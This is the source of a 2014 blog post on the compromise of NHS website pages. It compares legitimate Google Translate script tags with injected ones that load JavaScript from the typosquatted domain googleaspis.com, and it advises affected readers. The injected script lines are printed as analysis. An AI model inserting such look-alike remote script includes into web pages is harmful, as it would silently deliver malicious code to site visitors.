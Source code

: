 ```yaml
---
layout: post
title: "NHS Website Hosting Malware"
date: 2014-02-03 10:39:41 +0000
comments: true
author: joseph
categories: 
 - security
tags: 
 - nhs
 - malware
 - javascript
 - compromise
 - security
description: "The NHS website is hosting currently hosting malware. The full extent of the threat is not completely clear, here is some information."
---
```


This morning I was made aware that certain pages of the NHS website - the UK's National Health Service - were hosting malware that was automatically redirecting users to malicious pages. The story broke on the popular news site Reddit, you can see the actual reddit thread [here](http://www.reddit.com/r/unitedkingdom/comments/1wv91h/nhsuk_compromised_many_pages_are_serving_malware/).

The first and most important point is that if you ever find yourself unexpectedly redirected from a page to another page then you should definitely not agree to install any software suggsted by the redirected site. Your safest course of action is likely to close the tab or even your browser as soon as possible and then run a full virus scan after updating your virus software.

###Here is some information on this particular attack

The list of URLs originally shown to be hosting this malware can be found [here](http://pastebin.com/DbvR0iyj).

The attack vector seems to be in a (possibly accidental) mis spelling of the domain name that is hosting some Javascript related to Google Translate. 


####You can see a correct chunk of HTML here:

``` html
<script type="text/javascript" src="/includes/AC_RunActiveContent.js"></script>
<script type="text/javascript" src="//translate.google.com/translate_a/element.js?cb=googleTranslateElementInit"></script><link type="text/css" rel="stylesheet" charset="UTF-8" href="https://translate.googleapis.com/translate_static/css/translateelement.css"><script type="text/javascript" charset="UTF-8" src="https://translate.googleapis.com/translate_static/js/element/main.js"></script>
<script type="text/javascript" src="/includes/translate.js"></script>
```

####And here is the compromised HTML

``` html
<script type="text/javascript" src="//translate.google.com/translate_a/element.js?cb=googleTranslateElementInit"></script>
<script type="text/javascript" src="//translate.googleaspis.com/translate_static/js/element/19/element_main.js"></script>
<script type="text/javascript" src="//translate.googleaspis.com/translate_static/js/element/element.js"></script>
<script type="text/javascript" src="/includes/translate.js"></script>
```

The domain name googleaspis.com is registered by regtons.com and though the [Whois information](http://www.whois.com/whois/googleaspis.com) has the actual domain ownership details obfuscated by a Czech company that protect the actual real ownership details, it does seem that the server and other [internet services](http://www.tcpiputils.com/browse/ip-address/31.170.179.179) are all based in the Czech Republic.

It seems that the NHS have now confirmed that they are aware of this issue and are currently taking action to resolve the problem.

It is still not clear exactly how or why this issue cropped up in the first place. If it was an accident, how did it manage to get past what you would expect to be quite rigorous quality assurance processes? If this was a result of a malicious break in, how did they manage to compromise the website in this way and are there any further security issues that we should, as a nation, be worried about?




